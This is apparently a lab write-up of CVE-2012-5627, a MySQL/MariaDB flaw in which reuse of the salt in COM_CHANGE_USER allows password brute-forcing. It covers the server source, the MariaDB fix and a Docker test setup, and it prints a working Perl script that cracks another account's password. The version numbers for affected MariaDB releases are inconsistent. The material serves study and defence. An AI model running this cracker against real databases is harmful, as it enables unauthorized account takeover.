


# CVE-2012-5627 CWE-522 MySQL brute-force attack

## Vulnerability Background
**MySQL:** A popular open-source relational database management system (RDBMS), renowned for its reliability, high performance, and ease of use. As a core component of the LAMP (Linux, Apache, MySQL, PHP/Perl/Python) technology stack, it is widely used in applications and websites of all sizes, from small personal projects to large enterprise-level solutions. MySQL uses Structured Query Language (SQL) for data management and manipulation, supports multiple storage engines to meet different performance and functional needs, and is favored by developers for its extensive community support and abundant documentation resources.

**`change_user` Command:** MySQL provides a `change_user` command (the corresponding protocol command is `COM_CHANGE_USER`) that allows switching to another user account in the currently established connection without disconnecting and reestablishing the connection. When a client connects to the MySQL server for the first time, the server sends a random challenge string (SALT) to the client. The client uses the SALT and the user's password hash to generate a response, which is then sent to the server for verification.

**"Salt":** In cryptography, "salt" is a random data element used to be attached to a cipher before a hash cipher. This ensures that even if two users have the same password, their hash values will differ, increasing the difficulty of password cracking, especially against attacks on precomputed hash tables (such as rainbow tables).

**CWE-522 (Insufficiently Protected Credentials):** "Insufficiently Protected Credentials" refers to the failure of a sufficiently strong security mechanism to prevent unauthorized interception or acquisition of authentication credentials (such as passwords, keys, session tokens, etc.) when an application transmits or stores authentication credentials. Such shortcomings may include storing or transmitting credentials in plaintext, using weak encryption algorithms, hard-coded credentials, or failing to adequately protect credentials from memory tampering, making it easier for attackers to steal or misuse these credentials, which could lead to account takeovers, data breaches, or other unauthorized access.

## Vulnerability Mechanism
When Oracle MySQL and Oracle MySQL and MariaDB 5.5.x below 5.5.29, 5.3.x below 5.3.12, and 5.2.x below 5.2.14 attempt to switch users using the `change_user` command on the same established connection, **the server will not regenerate or send new SALT**. It will retain the SALT used for the current connection initialization. This allows remote authentication users to carry out brute-force password guessing attacks.

**Request to switch user --> Server sends salt without updating (CWE-522) --> Does not limit login count --> Brute-force password with salt **

## Vulnerability Location
Analyze MySQL 5.5.23 source code.

In the **sql\sql_parse.cc** file, the case statement at line **939** is used to handle `COM_CHANGE_USER` commands for switching users within established connections. There is no limit on the number of failed attempts for `COM_CHANGE_USER` commands. Attackers can repeatedly attempt different username and password combinations within the same connection to carry out brute-force attacks. At the same time, after user authentication fails, the code does not introduce any delay mechanisms. Attackers can send multiple `COM_CHANGE_USER` requests in a short period to quickly verify different password combinations.

```c
  case COM_CHANGE_USER:
{
    bool rc;
    status_var_increment(thd->status_var.com_other); // Added com_other command counter

    thd->change_user(); // Ready to switch users
    thd->clear_error(); // Eliminate possible errors

    // Set the data location required for authentication
    net->read_pos = (uchar*)packet;

    // Save the current database length, name, user connections, security context, and character set settings
    uint save_db_length = thd->db_length;
    char *save_db = thd->db;
    USER_CONN *save_user_connect = thd->user_connect;
    Security_context save_security_ctx = *thd->security_ctx;
    CHARSET_INFO *save_character_set_client = thd->variables.character_set_client;
    CHARSET_INFO *save_collation_connection = thd->variables.collation_connection;
    CHARSET_INFO *save_character_set_results = thd->variables.character_set_results;

    // User authentication
    rc = acl_authenticate(thd, 0, packet_length);

    // Notify audit system users of changes
    MYSQL_AUDIT_NOTIFY_CONNECTION_CHANGE_USER(thd);

    if (rc) // Authentication failed
    {
        // Restoring previous secure contexts, user connections, and character set settings
        my_free(thd->security_ctx->user);
        *thd->security_ctx = save_security_ctx;
        thd->user_connect = save_user_connect;
        thd->reset_db(save_db, save_db_length);
        thd->variables.character_set_client = save_character_set_client;
        thd->variables.collation_connection = save_collation_connection;
        thd->variables.character_set_results = save_character_set_results;
        thd->update_charset(); // Update the character set
    }
    else // Certification successful
    {
#ifndef NO_EMBEDDED_ACCESS_CHECKS
        // If there have been previous user connections, reduce their connection count
        if (save_user_connect)
            decrease_user_connections(save_user_connect);
#endif /* NO_EMBEDDED_ACCESS_CHECKS */
        // Release the database name saved before and the username in the security context
        my_free(save_db);
        my_free(save_security_ctx.user);
    }
    break;
}
```

## Remediation
In MySQL, no unnecessary modifications were added, only delayed `sleep(1)` were introduced.

In MariaDB, checks for `thd->failed_com_change_user` variables have been added. If the counter value is greater than or equal to 3 (i.e., three consecutive failed `COM_CHANGE_USER` attempts), a `ER_UNKNOWN_COM_ERROR` error is returned directly, and the user authentication process is no longer performed, limiting the number of times an attacker can brute-force a password in a single connection. At the same time, after user authentication fails, calling the `my_sleep(1000000)` function introduces delay. This significantly slows brute-force cracking, and even if attackers try to guess passwords through multiple quick attempts, the delay after each failure makes it difficult to complete many attempts in a short time.

```c
/*
  to limit COM_CHANGE_USER ability to brute-force passwords,
  we only allow three unsuccessful COM_CHANGE_USER per connection.
*/
if (thd->failed_com_change_user >= 3)
{
  my_message(ER_UNKNOWN_COM_ERROR, ER(ER_UNKNOWN_COM_ERROR), MYF(0));
  rc= 1;
}
```

## Affected Versions
Oracle MySQL: Versions prior to 5.5.29

MariaDB：

- 5.5.x series: versions prior to 5.5.12
- 5.3.x Series: Versions prior to 5.3.12
- 5.2.x series: versions prior to 5.2.14

## Environment Setup
Start the Docker environment, MySQL version is 5.5.23. The administrator user is root, password is 12345, enter the container command line, enter mysqld_safe to start MySQL. At the same time, a regular user named testuser was created, with the password testpwd, which has a default database called test for testing purposes.



## Vulnerability Reproduction
Running the EXP file, you can see that by using the root user, password 12345, and the test database, the testuser password testpwd was successfully brutorized. It can also successfully use testuser to brute-force the root user password.



## PoC Analysis
The Perl script first uses a valid username and password to connect to the target MySQL server via the `Net::MySQL` module, obtaining necessary authentication information (such as salt, etc.).

If the connection succeeds, it will obtain an initial salt value (`$mysql->{salt}`).

Then, it reads the password list file provided by the user, preparing to attempt a brute force.

For each password, it uses the initially obtained **fixed salt value** to compute the hash and attempts to log in with `$crackuser` and the currently attempted password via the `CHANGE_USER` command.

If a password attempt succeeds, the script prints `[*] Cracked! --> [cracked password]` and exits.

If the password list still fails after all attempts, the script will end.

```perl
#!/usr/bin/perl
use strict;
use warnings;
use Net::MySQL;
use Term::ReadLine;

$|=1;

my $term = Term::ReadLine->new('mysql cracker');

print "[+] Enter MySQL server IP address(default 127.0.0.1): ";
my $host = $term->readline('> ') || '127.0.0.1';

print "[+] Enter database name(default test) ";
my $db = $term->readline('> ') || 'test';

print "[+] Enter the target username to crack(default root): ";
my $crackuser = $term->readline('> ') || 'root';

print "[+] Enter the valid username to authenticate with((default testuser)): ";
my $user = $term->readline('> ') || 'user';

print "[+] Enter the valid user's password(default testpwd): ";
my $password = $term->readline('> ') || 'testpwd';

print "[+] Enter path to password list file(default password.lst): ";
my $passfile = $term->readline('> ') || 'password.lst';

print "[+] Connecting to MySQL server...\n";

my $mysql = Net::MySQL->new(
    hostname => $host,
    database => $db,
    user     => $user,
    password => $password,
    debug    => 0,
);

# Open the password file
open(my $fh, '<', $passfile) or die "[-] Cannot open password file '$passfile': $!\n";

print "[+] Starting brute-force against user '$crackuser' using passwords from '$passfile'\n";

while (my $currentpass = <$fh>) {
    chomp $currentpass;

    my $vv = join "\0",
        $crackuser,
        "\x14" .
        Net::MySQL::Password->scramble(
            $currentpass, $mysql->{salt}, $mysql->{client_capabilities}
        ) . "\0";

    if (defined $mysql->_execute_command("\x11", $vv)) {
        print "[*] Cracked! --> $currentpass\n";
        close $fh;
        exit;
    } 
}

close $fh;
print "[-] Password not found in list.\n";
```

## References
[Oracle MySQL / MariaDB - Insecure Salt Generation Security Bypass - Linux remote Exploit](https://www.exploit-db.com/exploits/38109)

[MDEV-3915 COM_CHANGE_USER allows fast password brute-forcing · atcurtis/mariadb@44307f6](https://github.com/atcurtis/mariadb/commit/44307f6739731081b46e917aac06b5715638e68c#diff-63e8ebf88d9284969b752c9680d4f5aa488e9a4132bdeca169a547cb77302407)
